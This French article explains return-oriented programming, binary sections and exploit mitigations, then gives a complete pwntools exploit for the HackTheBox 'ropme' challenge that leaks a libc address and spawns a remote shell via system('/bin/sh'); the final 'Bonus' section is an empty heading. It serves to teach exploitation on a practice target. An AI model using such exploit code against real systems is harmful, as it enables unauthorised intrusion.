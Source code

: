 ```yaml
---
title: "Return-oriented programming (ROP)"
description: Article théorique et pratique sur le ROP
---
```


# Sommaire
1. [Les sections d'un binaire](#Les_sections)
2. [Les protections](#Les_protections)
3. [Qu'est ce que le ROP ?](#ROP)
4. [Exploitation + Walkthrough ROPME - HackTheBox](#ropme)
5. [Bonus - ROP Chain via le gadget int 0x80](#bonus_ropchain)


Avant de commencer à vous expliquer le ROP je vais devoir vous expliquer avant tout quelques notions essentielles à la bonne compréhension de la suite de cette article ! 😀


<div id='Les_sections'/>
# Les sections d'un binaire

Pour le ROP nous allons nous intéréssé particulièrement à ces sections :

### Global Offset Table (GOT)

La GOT (Global Offset Table) est une section qui effectue une résolution d'adresse de la libc pour un gain de temps au processeur. C'est un tableau de pointeurs qui stocke les vrais adresses des fonctions de la libc.

### Procedure Linkage Table (PLT)

La PLT (Procedure Linkage Table) est une section qui contient du code permettant de résoudre les fonctions de la libc exécutées dans le binaire. C'est une table servant à faire le lien avec les fonctions situées dans des bibliothèques dynamiques. Cette section se trouve à des adresses fixes

### Les segments d'un binaire

- Le segment TEXT contient le code du binaire
- Le segment BSS contient les variables non itilialisées, par exemple en C :
```c
char var[256];
```
- Le segment DATA contient les variables initialisées, par exemple en C : 
```c
char var[256] = "nuts";
```

<div id='Les_protections'/>
# Les protections des exécutables

- **NX** est une protection qui rend la pile Non eXécutable. Cette technique empeche l'exécution d'un shellcode dans la stack. Pour bypass cette protection nous devons effectuer un **ret2libc**, BTW voici un exemple d'exploitation : [HackTheBox - Enterprise](https://nuts7.github.io/articles/htb-enterprise/).

- Le **DEP** (Data Execution Prevention) consiste à protéger les zones de mémoires non exécutables. L'activation de la fonctionnalité DEP consiste à passer le bit NX à 1 dans le processeur.

- L’**ASLR** (Address space layout randomization) est une technique permettant de placer de façon aléatoire les adresses de la stack, du tas et des bibliothèques partagées.

- **PIE** permet de placer de facon aléatoire des emplacements mémoires (comme l'ASLR) mais cette fois ci, pour la zone de code et la zone de donnée.

- Le **stack canary** ou la **Stack Smashing Protection** (SSP) est une protection qui est placé entre le buffer et le couple EBP et EIP (32 bits) ou RBP et RIP (64 bits). Si la valeur du canary est réecrite avec la mauvaise valeur alors le programme se ferme. (4 octets en 32 bits, 8 octets en 64 bits) Cependant, en assembleur nos ordinateurs vérifient octets par octets les chaines de caractères, alors nous pouvons brute force byte par byte la valeur du canary afin de la leak et de réecrire la bonne valeur du canary.

- Le **Fortify Source** permet de détecter certaines erreurs de développement causant un buffer overflow dans le code source d'une application lors de l'utilisation de diverses fonctions de manipulation de chaînes de caractères et de mémoire (par exemple, memcpy, memset, stpcpy, strcpy, strncpy, strcat, strncat, sprintf, snprintf, vsprintf, vsnprintf, gets)

- **RELRO** est une protection permettant de demander au linker de résoudre les fonctions de bibliothèques dynamiques au tout début de l’exécution, et donc de pouvoir remapper la section GOT et GOT.plt en lecture seule. 

<div id='ROP'/>
# Qu'est ce que le ROP ?

Le ROP (Return-oriented programming) est une technique d'exploitation reposant sur la recherche de blocs d'instructions à l'intérieur d'un binaire, ces blocs sont appelés **gadget**. Ces morceaux de code terminent généralement par un ret (= pop rdi), un call ou un jmp. Nous allons pouvoir chainer ces gadgets afin d'exécuter une suite d'actions, appelé **ROP Chain**.

<p align="center">
  <img width="460" height="300" src="https://media.giphy.com/media/q6RoNkLlFNjaw/giphy.gif">
</p>

Le ROP va permettre de bypass principalement des protections telles que NX, l'ASLR et le DEP.



<div id='ropme'/>
# Exploitation + Walkthrough ROPME - HackTheBox

```py
from pwn import *

HOST, PORT = '178.62.118.108', 30396 

#p = process('./ropme', stdin=PTY)
p = remote(HOST, PORT)
elf = ELF('./ropme')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

padding = b'A' * 72 # offset to overwrite RBP
gadget = 0x4006d3 # pop rdi ; ret
puts_plt = elf.plt['puts'] # 0x4004e0 (PLT in GEF)
puts_got = elf.got['puts'] # 0x601018 (GOT in GEF)
addr_main = elf.symbols['main'] # 0x400626 (1st Address Prologue Main Function)

p.recvuntil('ROP me outside, how \'about dah?\n') # wait str to send pld

pld = b''
pld += padding # buffer + overwrite RBP (8 octets)
pld += p64(gadget) # 1 argument (pop rdi ; ret)
pld += p64(puts_got) # to save addr puts of GOT in rdi register
pld += p64(puts_plt) # to print puts GOT
pld += p64(addr_main) # ret2main
p.sendline(pld) # send payload

puts_leak = u64(p.recvline().strip().ljust(8, b'\x00')) # to get valid address
log.info('Addr puts (GOT) leak : {}'.format(hex(puts_leak))) # print address puts leaked

libc_puts = 0x06f690
libc_binsh = 0x18cd17
libc_system = 0x045390

libc_base = puts_leak - libc_puts # calculate addr base
log.info('libc base at ' + hex(libc_base))

addr_system = libc_base + libc_system # calculate difference between base and system function

binsh = libc_base + libc_binsh # calculate difference between base and /bin/sh

log.info('System at ' + hex(addr_system))
log.info('/bin/sh at ' + hex(binsh))

p.recvuntil('ROP me outside, how \'about dah?\n') # wait str to send pld

pld = b''
pld += padding # offset to go save EIP 
pld += p64(gadget) # gadget to pass a parameter to called function (pop rdi ; ret)
pld += p64(binsh) # 
pld += p64(addr_system)

p.sendline(pld) # send payload 
p.interactive() # spawn interactive shell

p.close()
```

<p align="center">
  <img width="460" height="300" src="https://media.giphy.com/media/VY20vTr6KCbOBKiGIL/giphy.gif">
</p>

<div id='bonus_ropchain'/>
# Bonus - ROP Chain via le gadget int 0x80
